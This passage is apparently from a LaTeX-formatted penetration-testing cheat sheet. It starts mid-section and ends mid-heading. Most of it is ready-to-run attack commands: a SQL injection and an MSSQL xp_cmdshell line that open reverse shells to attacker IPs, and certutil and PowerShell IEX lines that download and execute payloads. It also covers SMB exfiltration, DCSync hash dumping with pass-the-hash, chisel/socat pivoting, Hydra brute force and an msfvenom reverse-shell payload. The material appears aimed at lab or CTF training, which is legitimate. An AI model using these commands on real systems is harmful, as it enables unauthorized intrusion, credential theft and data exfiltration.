'; CREATE TABLE cmd_exec(cmd_output text) --
\end{verbatim}
\item
  Initiate a reverse shell

\begin{verbatim}
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.10.10/443 0>&1'''; --
\end{verbatim}
\end{enumerate}

\hypertarget{password-cracking}{%
\chapter*{Password Cracking}\label{password-cracking}}
\addcontentsline{toc}{chapter}{Password Cracking}

There is two big families or strategies for cracking passwords:\\
1. Brute force attacks
1. Dictionary attacks

Brute forcing is the strategy that concist of trying every possible combination of characters until finding the right secret. Given \textbf{enough time}, a brute force
attack is \textbf{always successful}.

\begin{quote}
So the big question is why attacker not only use this technic?
\end{quote}

The answer is simple. Attackers need \textbf{enough time} to do that. Imagine a password with a length of 10 characters containing lowercase chars, uppercase chars,
numbers and special chars, Attackers have to generate \texttt{90\^{}10} passwords and that will take ages (years in this case).

\begin{quote}
{[} ! {]} NOTE: That means that attackers will use Brute force strategie only when they have no more possiblities.
\end{quote}

Dictionary attack strategy is a type of bruteforcing but taking as input a dictionary of common credentials or password. This technic is the most used because it's
not taking so much time as brute force. Of course this strategy is not so efficient as the brute force one because if the credential we want to crack is not in
this dictionary, we will not be able to find the secret. It exist a lot of typical dictionary on the web like \href{https://www.owasp.org/index.php/OWASP_SecLists_Project}{OWASP Seclists Project},
\href{https://github.com/danielmiessler/SecLists}{danielmiessler/Seclist}

\hypertarget{password-cracking-with-johntheripper}{%
\section*{Password Cracking with JohnTheRipper}\label{password-cracking-with-johntheripper}}
\addcontentsline{toc}{section}{Password Cracking with JohnTheRipper}

John The Ripper also known as \textbf{john} is a command line tool that can perform brute force attacks and dictionary attacks.

\hypertarget{use-john-for-brute-force}{%
\subsection*{Use John for brute force}\label{use-john-for-brute-force}}
\addcontentsline{toc}{subsection}{Use John for brute force}

\textbf{John} have an option call incremental that permors brute force attacks.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ -incremental -users:}\OperatorTok{<}\NormalTok{users list}\OperatorTok{>} \OperatorTok{<}\NormalTok{file to crack}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{use-john-for-dictionary-attack}{%
\subsection*{Use John for dictionary attack}\label{use-john-for-dictionary-attack}}
\addcontentsline{toc}{subsection}{Use John for dictionary attack}

\textbf{John} have the wordlist option to perform dictionary attacks.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ -wordlist=/usr/share/wordlists/rockyou.txt }\OperatorTok{<}\NormalTok{file to crack}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{cracking-ssh-keys-protected-by-password}{%
\subsection*{Cracking ssh keys protected by password}\label{cracking-ssh-keys-protected-by-password}}
\addcontentsline{toc}{subsection}{Cracking ssh keys protected by password}

John The Ripper have a spectial tool called \textbf{ssh2john} that help by a dictionary attack to find the
password used when a user have generated a SSH Key with a passphrase.

usage:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ssh2john}\NormalTok{ -}\OperatorTok{>}\NormalTok{ /usr/share/john/ssh2john.py id_rsa }\OperatorTok{>}\NormalTok{ hash}
\FunctionTok{cat}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

\hypertarget{cracking-ftp-protected-by-password}{%
\subsection*{Cracking ftp protected by password}\label{cracking-ftp-protected-by-password}}
\addcontentsline{toc}{subsection}{Cracking ftp protected by password}

John have a special tool for cracking ftp protected by password: \textbf{zip2john}

usage:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{zip2john}\NormalTok{ -}\OperatorTok{>}\NormalTok{ /usr/share/john/zip2john backup.zip }\OperatorTok{>}\NormalTok{ hash}
\FunctionTok{cat}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

\hypertarget{use-websites-for-cracking-password}{%
\section*{Use websites for cracking password}\label{use-websites-for-cracking-password}}
\addcontentsline{toc}{section}{Use websites for cracking password}

\begin{itemize}
\tightlist
\item
  \href{https://crackstation.net}{crack station}
\item
  \href{https://hashkiller.io}{hash killer}
\item
  \href{https://hashes.com}{hashes}
\end{itemize}

\hypertarget{authentication-cracking}{%
\section*{Authentication Cracking}\label{authentication-cracking}}
\addcontentsline{toc}{section}{Authentication Cracking}

When pentesters need to access a network service, they can try to obtain valid credentials by using bruteforce or dictionary attacks.
The problem here is that perfoming thos kinds of attacks through the network can be time consuming for managing every runs (delays, processing and network latency).

\begin{quote}
The only feasible solution here is to perform dictionary attacks and hope that a user have a weak or default credentials.
\end{quote}

\hypertarget{authentication-cracking-with-hydra}{%
\subsection*{Authentication Cracking with Hydra}\label{authentication-cracking-with-hydra}}
\addcontentsline{toc}{subsection}{Authentication Cracking with Hydra}

\textbf{Hydra} is a fast parallelized, network authentication cracker that supports different protocols like ssh, ftp, smb, rdp, telnet and much more\ldots{}

usage:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{hydra}\NormalTok{ -L users_dict.txt -P password_dict.txt 127.0.0.1 ssh}
\end{Highlighting}
\end{Shaded}

\hypertarget{break-known-hash-algorithms-with-cyberchef}{%
\section*{Break known hash algorithms with CyberChef}\label{break-known-hash-algorithms-with-cyberchef}}
\addcontentsline{toc}{section}{Break known hash algorithms with CyberChef}

\textbf{CyberChef} is a webapp that allows attacker to crack password hash algorithms. You can find the web app on \href{https://gchq.github.io/CyberChef/}{cyberchef github pages}.

\hypertarget{pivoting}{%
\chapter*{Pivoting}\label{pivoting}}
\addcontentsline{toc}{chapter}{Pivoting}

\textbf{Pivoting} is a technic that comes when attacker already took access to a first victim and see that this victim machine have access to other machines that attacker can
not connect to. Let's see an example:

Attacker gain access to the machine 10.10.10.10 and looking at his ifconfig he see someting like the following:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{enp0s10f1}\NormalTok{: flags=}\OperatorTok{4163<}\NormalTok{UP,BROADCAST,RUNNING,MULTICAST}\OperatorTok{>}\NormalTok{  mtu 1500}
        \ExtensionTok{inet}\NormalTok{ 10.10.10.10  netmask 255.255.255.0  broadcast 10.10.10.255}
        \ExtensionTok{inet6}\NormalTok{ fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20}\OperatorTok{<}\NormalTok{link}\OperatorTok{>}
        \ExtensionTok{ether}\NormalTok{ 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)}
        \ExtensionTok{RX}\NormalTok{ packets 7463931  bytes 10268193539 (10.2 GB)}
        \ExtensionTok{RX}\NormalTok{ errors 0  dropped 11149  overruns 0  frame 0}
        \ExtensionTok{TX}\NormalTok{ packets 3581258  bytes 306664252 (306.6 MB)}
        \ExtensionTok{TX}\NormalTok{ errors 0  dropped 0 overruns 0  carrier 0  collisions 0}
        \ExtensionTok{device}\NormalTok{ interrupt 16  memory 0xec200000-ec220000  }

\ExtensionTok{enp0s20f2}\NormalTok{: flags=}\OperatorTok{4163<}\NormalTok{UP,BROADCAST,RUNNING,MULTICAST}\OperatorTok{>}\NormalTok{  mtu 1500}
        \ExtensionTok{inet}\NormalTok{ 20.20.20.10  netmask 255.255.255.0  broadcast 20.20.20.255}
        \ExtensionTok{inet6}\NormalTok{ fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20}\OperatorTok{<}\NormalTok{link}\OperatorTok{>}
        \ExtensionTok{ether}\NormalTok{ 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)}
        \ExtensionTok{RX}\NormalTok{ packets 7463931  bytes 10268193539 (10.2 GB)}
        \ExtensionTok{RX}\NormalTok{ errors 0  dropped 11149  overruns 0  frame 0}
        \ExtensionTok{TX}\NormalTok{ packets 3581258  bytes 306664252 (306.6 MB)}
        \ExtensionTok{TX}\NormalTok{ errors 0  dropped 0 overruns 0  carrier 0  collisions 0}
        \ExtensionTok{device}\NormalTok{ interrupt 16  memory 0xec200000-ec220000  }
\end{Highlighting}
\end{Shaded}

At this moment attacker try to ping the victim machine at his second ip (20.20.20.20) and the ping don't respond. That's because Attacker don't have access to this network.
The only way he have is to use the victim machine to do a network discovery for the 20.20.20.0/24 network. On the victim machine he can for example do a
\texttt{fping\ -a\ -g\ 20.20.20.0/24\ 2\textgreater{}/dev/null} or a \texttt{nmap\ -sn\ 20.20.20.0/24} (also a personal script if no other possiblity exists).
Attacker see that another machine exists in this network segment. The 20.20.20.20 has been discovered with port 80 and 22. Because Attacker can not access to this machine,
he have to use the 10.10.10.10 to make a reverse port forwarding of the 20.20.20.20:80 and 20.20.20.20:22 to the ports of the attacker machine. That's pivoting

Here for the notes we will have special nomenclature:

\begin{itemize}
\tightlist
\item
  20.20.20.20 -\textgreater{} \textbf{victim machine}\\
\item
  10.10.10.10 -\textgreater{} \textbf{pivoting machine}\\
\item
  attacker -\textgreater{} \textbf{attacker machine}
\end{itemize}

\hypertarget{pivoting-with-chisel}{%
\section*{Pivoting with chisel}\label{pivoting-with-chisel}}
\addcontentsline{toc}{section}{Pivoting with chisel}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Get chisel and build

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/jpillora/chisel}
\BuiltInTok{cd}\NormalTok{ chisel}
\ExtensionTok{go}\NormalTok{ blid -ldflags }\StringTok{"-s -w"}\NormalTok{ .}
\ExtensionTok{upx}\NormalTok{ brute chisel}
\end{Highlighting}
\end{Shaded}
\item
  Send Chisel binary to the pivoting machine

  \begin{itemize}
  \item
    on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{md5sum}\NormalTok{ chisel}
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{<}\NormalTok{ chisel}
\end{Highlighting}
\end{Shaded}
  \item
    on pivoting machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat} \OperatorTok{>}\NormalTok{ chisel }\OperatorTok{<}\NormalTok{ /dev/tcp/}\OperatorTok{<}\NormalTok{attacker ip}\OperatorTok{>}\NormalTok{/443}
\ExtensionTok{md5sum}\NormalTok{ chisel}
\FunctionTok{chmod}\NormalTok{ +x chisel}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Create reverse port forwarding with the victim machine ports to bind attacker machine ports

  \begin{itemize}
  \item
    on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./chisel}\NormalTok{ server --reverse -p 1234}
\end{Highlighting}
\end{Shaded}
  \item
    on pivoting machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./chisel}\NormalTok{ client }\OperatorTok{<}\NormalTok{attacker ip}\OperatorTok{>}\NormalTok{:1234 R:127.0.0.1:80:}\OperatorTok{<}\NormalTok{victim ip}\OperatorTok{>}\NormalTok{:80 R:127.0.0.1:222:}\OperatorTok{<}\NormalTok{victim ip}\OperatorTok{>}\NormalTok{:22}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Now attacker can check the web app on localhost:80 or use the ssh to 127.0.0.1 -p 222
\end{enumerate}

\hypertarget{pivoting-with-socat}{%
\section*{Pivoting with socat}\label{pivoting-with-socat}}
\addcontentsline{toc}{section}{Pivoting with socat}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Get socat static binary

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://github.com/aledbf/socat-static-binary/releases/download/v.0.0.1/socat-linux-amd64}
\end{Highlighting}
\end{Shaded}
\item
  Send sockat to pivoting machine

  \begin{itemize}
  \item
    on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{md5sum}\NormalTok{ socat}
\ExtensionTok{nc}\NormalTok{ -nlvp 1111 }\OperatorTok{<}\NormalTok{ socat}
\end{Highlighting}
\end{Shaded}
  \item
    on pivotin machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat} \OperatorTok{>}\NormalTok{ socat }\OperatorTok{<}\NormalTok{ /dev/tcp/}\OperatorTok{<}\NormalTok{attacker ip}\OperatorTok{>}\NormalTok{/1111}
\ExtensionTok{md5sum}\NormalTok{ socat}
\FunctionTok{chmod}\NormalTok{ +x socat}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Prepare attacker machine for listenning

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 7979}
\end{Highlighting}
\end{Shaded}
\item
  Tuneling tcp data for reverse shell from victim to the attacker

  \begin{itemize}
  \tightlist
  \item
    on pivoting machine
  \end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./socat}\NormalTok{ TCP-LISTEN:4545,fork tcp:}\OperatorTok{<}\NormalTok{attacker ip}\OperatorTok{>}\NormalTok{:7979 }\KeywordTok{&}
\end{Highlighting}
\end{Shaded}
\item
  Reverse shell from victim to pivoting machine on 4545 port
\end{enumerate}

\hypertarget{port-forwarding-with-ssh}{%
\section*{Port forwarding with ssh}\label{port-forwarding-with-ssh}}
\addcontentsline{toc}{section}{Port forwarding with ssh}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ username@10.10.10.10 -L 1234:127.0.0.1:1234}
\end{Highlighting}
\end{Shaded}

Explanation of -L is we want a local port forwarding where port 1234 of the victim : will be forwarding to attacker local ip 127.0.0.1 on port 1234.

\hypertarget{gaining-access-with-metasploit}{%
\chapter*{Gaining access with Metasploit}\label{gaining-access-with-metasploit}}
\addcontentsline{toc}{chapter}{Gaining access with Metasploit}

\textbf{Metasploit} is an open source framework used for penetration testing and exploit development. \textbf{Metasploit} gives a wide array of
community contributed exploits and attack vectors. It's also used to automate your own exploits.

The basic workflow to exploit a target by using \textbf{MSFConsole} is:\\
- Vulnerable service identification
- Search for a proper exploit fot that service
- Loading and configuration of that exploit
- Loading and configuration of the the desired payload
- Run of the exploit code and get access to the vulnerable machine

You can start \textbf{Metasploit} by typing:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfconsole}
\end{Highlighting}
\end{Shaded}

\hypertarget{search-for-a-proper-exploit}{%
\section*{Search for a proper exploit}\label{search-for-a-proper-exploit}}
\addcontentsline{toc}{section}{Search for a proper exploit}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6} \OperatorTok{>}\NormalTok{ search }\OperatorTok{<}\NormalTok{my search term}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

another way to look for exploit is by using the show command.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6} \OperatorTok{>}\NormalTok{ show exploits}
\end{Highlighting}
\end{Shaded}

It's not a good way for finding exploits as Metasploit have more than thousands of exploits.

\hypertarget{use-the-desired-exploit}{%
\section*{Use the desired exploit}\label{use-the-desired-exploit}}
\addcontentsline{toc}{section}{Use the desired exploit}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6} \OperatorTok{>}\NormalTok{ use exploit/windows/ftp/turboftp_port}
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

At this point you can check the exploit info by typing:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \ExtensionTok{info}
\end{Highlighting}
\end{Shaded}

or go back to the main msf console by typing

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \ExtensionTok{back}
\end{Highlighting}
\end{Shaded}

The command \textbf{show options} gives you the informations needed to use the exploit and the \textbf{set} command is needed to configure those options.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \ExtensionTok{show}\NormalTok{ options}
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{RHOST}\NormalTok{ 10.10.10.5}
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{FTPUSER}\NormalTok{ god}
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{FTPASS}\NormalTok{ S@v3TH3Qu33n!}
\end{Highlighting}
\end{Shaded}

\hypertarget{run-the-exploit}{%
\section*{Run the exploit}\label{run-the-exploit}}
\addcontentsline{toc}{section}{Run the exploit}

To run an exploit, a \textbf{Payload} is needed. The payload is used to get:

\begin{itemize}
\tightlist
\item
  a shell\\
\item
  a vnc or rdp connection\\
\item
  a \textbf{Meterpreter shell}\\
\item
  the execution of an attacker-supplied application
\end{itemize}

To list the payloads of the specific choosen exploit, use the following command

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \ExtensionTok{show}\NormalTok{ payloads}
\end{Highlighting}
\end{Shaded}

You can then choose the payload you want with the \textbf{set} command:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{payload}\NormalTok{ windows/meterpreter/reverse_tcp}
\end{Highlighting}
\end{Shaded}

And again configure the payload and you will be good to go for launching the attack.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{LHOST}\NormalTok{ 10.10.10.2}
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{LPORT}\NormalTok{ 1234}

\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \ExtensionTok{exploit}
\end{Highlighting}
\end{Shaded}

\hypertarget{windows-specific}{%
\chapter*{Windows Specific}\label{windows-specific}}
\addcontentsline{toc}{chapter}{Windows Specific}

\hypertarget{ms-sql-server}{%
\section*{MS SQL Server}\label{ms-sql-server}}
\addcontentsline{toc}{section}{MS SQL Server}

For accessing to \textbf{MS SQL SERVER}, you can use \texttt{mssqliclient.py} utility from the impacket package that is available on kali or that you
can clone from the \href{https://github.com/SecureAuthCorp/impacket}{impacket github repository}.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ mssqlcli}
\ExtensionTok{python3}\NormalTok{ mssqlclient.py -windows-auth }\OperatorTok{<}\NormalTok{user}\OperatorTok{>}\NormalTok{:}\OperatorTok{<}\NormalTok{password}\OperatorTok{>}\NormalTok{@10.10.10.10}
\ExtensionTok{SQL}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  check if db user have sysadmin priviledges

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{select} \ExtensionTok{IS_SRVROLEMEMBER}\NormalTok{(}\StringTok{'sysadmin'}\NormalTok{, }\StringTok{'<user>'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

  if output is \textbf{1}, that means that the user is a priviledged user on the system
\item
  execute commands

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{EXEC xp_cmdshell 'echo %}\FunctionTok{cd}\NormalTok{%'}
\NormalTok{xp_cmdshell powershell }\FunctionTok{wget}\NormalTok{ http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{:8000/nc.}\FunctionTok{exe}\NormalTok{ -OutFile %TEMP%\textbackslash{}nc.}\FunctionTok{exe}
\NormalTok{xp_cmdshell powershell }\StringTok{"%TEMP%\textbackslash{}nc.exe -nv 10.10.10.11 443 -e cmd.exe}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{connect-to-machine-with-psexec}{%
\section*{Connect to machine with PSEXEC}\label{connect-to-machine-with-psexec}}
\addcontentsline{toc}{section}{Connect to machine with PSEXEC}

\textbf{psexec} is a tool from the impacket package. You can use it to connect to windows machines with a user and password.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ psexec.py }\OperatorTok{<}\NormalTok{user}\OperatorTok{>}\NormalTok{@10.10.10.10}
\end{Highlighting}
\end{Shaded}

\hypertarget{send-files-to-windows-machine}{%
\section*{Send files to windows machine}\label{send-files-to-windows-machine}}
\addcontentsline{toc}{section}{Send files to windows machine}

\hypertarget{download-files-with-certutil}{%
\subsection*{Download files with certutil}\label{download-files-with-certutil}}
\addcontentsline{toc}{subsection}{Download files with certutil}

\textbf{certutil.exe} is a netcat variant for Windows. It can be use for download files form the internet like a wget tool

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{certutil.}\FunctionTok{exe}\NormalTok{ -f -urlcache -split http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{/chisel.}\FunctionTok{exe}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}temp}
\end{Highlighting}
\end{Shaded}

\hypertarget{download-files-by-using-powershell}{%
\subsection*{Download files by using Powershell}\label{download-files-by-using-powershell}}
\addcontentsline{toc}{subsection}{Download files by using Powershell}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{powershell -c }\FunctionTok{iwr}\NormalTok{ -uri http://<attacker_ip>/<file_to_download> -OutFile C:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}nc.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{powershell.}\FunctionTok{exe} \FunctionTok{IEX}\NormalTok{(}\FunctionTok{New-Object}\NormalTok{ Net.}\FunctionTok{WebClient}\NormalTok{).}\FunctionTok{downloadString}\NormalTok{('http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{/<file_to_download_and_execute')}
\end{Highlighting}
\end{Shaded}

\hypertarget{share-smb-directory-with-windows-machine}{%
\subsection*{Share SMB directory with Windows Machine}\label{share-smb-directory-with-windows-machine}}
\addcontentsline{toc}{subsection}{Share SMB directory with Windows Machine}

Imaging we want to execute nc.exe on the Windows machine but this one don't have \textbf{nc.exe}. We can download nc.exe and execute
it by sharing a SMB folder.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  On attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ -smb2support}
\end{Highlighting}
\end{Shaded}
\item
  On windows machine

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{\textbackslash{}\textbackslash{}10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{\textbackslash{}smbFolder\textbackslash{}nc.}\FunctionTok{exe}\NormalTok{ -e cmd 10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{ 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Share SMB can also be usefull to send files from the victim to the attacker machine. Imagine now that we want to retrieve file.txt
from the victim to the attacker machine.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  On attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ -smb2support}
\end{Highlighting}
\end{Shaded}
\item
  On windows machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{copy}\NormalTok{ file.}\FunctionTok{txt}\NormalTok{ \textbackslash{}\textbackslash{}10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{\textbackslash{}smbFolder\textbackslash{}file.}\FunctionTok{txt}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

It can appear that this technic will not work because of \texttt{ERROR:\ The\ specified\ server\ cannot\ perform\ the\ requested\ operation.} error.
The solution here will be to assign a user and password for this share resource.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  On attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ smb2support -username looping -password looping}
\end{Highlighting}
\end{Shaded}
\item
  On victim machine, create a logical unit binded to this shared resource

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{net use x: \textbackslash{}\textbackslash{}10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{\textbackslash{}smbFolder /user:looping looping}
\end{Highlighting}
\end{Shaded}
\item
  You can then copy the desired file directly into x: logical unit

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{copy}\NormalTok{ file.}\FunctionTok{txt}\NormalTok{ x:\textbackslash{}file.}\FunctionTok{txt}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{connection-throw-winrm-with-evil-winrm}{%
\section*{Connection throw WinRM with evil-winrm}\label{connection-throw-winrm-with-evil-winrm}}
\addcontentsline{toc}{section}{Connection throw WinRM with evil-winrm}

If you have user credentials and the machine have port 5985 or WinRM running in another port, you can connect to the machine
with \textbf{evil-winrm} tool

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Install evil-winrm

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ gem install evil-winrm}
\end{Highlighting}
\end{Shaded}
\item
  Connect with evil-winrm

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.10 -u }\StringTok{'username'}\NormalTok{ -p }\StringTok{'Password1234'}
\end{Highlighting}
\end{Shaded}
\item
  Connect by ssl

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -S -c certnew.cer -k private.key -i 10.10.10.10 -u }\StringTok{'username'}\NormalTok{ -p }\StringTok{'Password1234'}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{exploit-getchangesall-privilege-vulnerability}{%
\section*{Exploit GetChangesAll privilege vulnerability}\label{exploit-getchangesall-privilege-vulnerability}}
\addcontentsline{toc}{section}{Exploit GetChangesAll privilege vulnerability}

The \textbf{GetChangesAll} privilege can be considert as a vunlnerability when you have the credentials of this user, because attacker cannot
perform a DCSync attack in order to dump the NTLM of all domain users.
You can check if user have this privilege with a tool like \textbf{Bloodhound}.

To perform this kind of attack you can use the \textbf{secretsdump.py} script who comes with te Impacket library

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ secretsdump}
\ExtensionTok{secretsdump.py}\NormalTok{ -dc-ip 10.10.10.10 DOMAIN.NAME/user:Password1234@10.10.10.10}

\CommentTok{#OUTPUT}
\NormalTok{[}\ExtensionTok{-}\NormalTok{] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied }
\NormalTok{[}\ExtensionTok{*}\NormalTok{] Dumping Domain Credentials (domain\textbackslash{}uid:rid:lmhash:nthash)}
\NormalTok{[}\ExtensionTok{*}\NormalTok{] Using the DRSUAPI method to get NTDS.DIT secrets}
\ExtensionTok{Administrator}\NormalTok{:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::}
\end{Highlighting}
\end{Shaded}

You can then connect to the victim machine by using psexec.py

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{psexec.py}\NormalTok{ domain.name/administrator@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18}
\end{Highlighting}
\end{Shaded}

You can also use the impacket-wmiexec to connect to the victim machine.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-wmiexec}\NormalTok{ domain.name/administrator@10.10.10.10 -hashes :8a4b77d52b1845bfe949ed1b9643bb18}
\end{Highlighting}
\end{Shaded}

\hypertarget{powershell-access-with-nishang}{%
\section*{Powershell access with Nishang}\label{powershell-access-with-nishang}}
\addcontentsline{toc}{section}{Powershell access with Nishang}

Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration
testing and red teaming. Nishang is useful during all phases of penetration testing.

By nikhil\_mitt

\href{https://github.com/samratashok/nishang}{Nishang github}

\hypertarget{invoke-powershelltcp.ps1}{%
\subsection*{Invoke-PowerShelltcp.ps1}\label{invoke-powershelltcp.ps1}}
\addcontentsline{toc}{subsection}{Invoke-PowerShelltcp.ps1}

Script that send a reverse shell with powershell on TCP protocol.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Open the script

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ nishang/Shells/}
\ExtensionTok{vi}\NormalTok{ Invoke-PowerShelltcp.ps1}
\end{Highlighting}
\end{Shaded}
\item
  Copy one of the examples that are at the begining of the file and paste it at the end of it.
\item
  Of course change the ip address and the port by the attackers one
\end{enumerate}

\hypertarget{create-a-reverse-shell-with-msfvenom}{%
\section*{Create a reverse shell with msfvenom}\label{create-a-reverse-shell-with-msfvenom}}
\addcontentsline{toc}{section}{Create a reverse shell with msfvenom}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfvenom}\NormalTok{ -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o reverse.exe }
\end{Highlighting}
\end{Shaded}

\hypertarget{bypass-constraint-language-in-a-powershell}{%
